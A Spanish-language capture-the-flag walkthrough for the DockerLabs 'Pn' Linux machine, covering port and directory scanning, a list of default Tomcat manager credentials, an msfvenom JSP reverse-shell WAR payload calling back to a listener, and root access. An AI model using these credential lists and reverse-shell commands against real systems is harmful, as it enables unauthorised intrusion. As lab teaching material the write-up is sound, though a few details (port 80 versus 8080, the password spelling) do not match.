 ```yaml
---
title: Pn - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/5811d9cc-09c3-4632-ae97-1865205329b8)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `8080` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p8080 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/cbfab6eb-5a1b-415a-9365-5bfa0433ec73)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web de `Tomcat`, version `9.0.88`.

![image](https://github.com/user-attachments/assets/28c15c29-fe88-47da-b8b4-2311ef0f81d1)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

Como no encontramos nada vamos ya que nos pide en muchos casos acceder con contraseña y usuario , vamos a porbar a meter algunas de las que estan por defecto:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

En este caso era `tomcat`,`s3cr3t`.

![image](https://github.com/user-attachments/assets/7a43f554-3f08-4bba-b332-73b85b16a206)

Una vez estando dentro creo con msfvenom una reverse shell en un archivo .war malicioso.

![image](https://github.com/user-attachments/assets/39c7a47a-ddf5-4dbd-82a0-c9e7012fd64a)

Una vez estando dentro creo con msfvenom una reverse shell en un archivo .war malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o revshell.war
```

Simultaneamente estamos escuhando el el puerto `4444` con `netcat`.

```bash
nc -lvnp 4444
```

![image](https://github.com/user-attachments/assets/2c558562-adcd-4c54-b885-214fd9c29b4b)

Ya somo root.

![image](https://github.com/user-attachments/assets/5aaa3629-ccef-41bd-a808-908ddcf472ab)

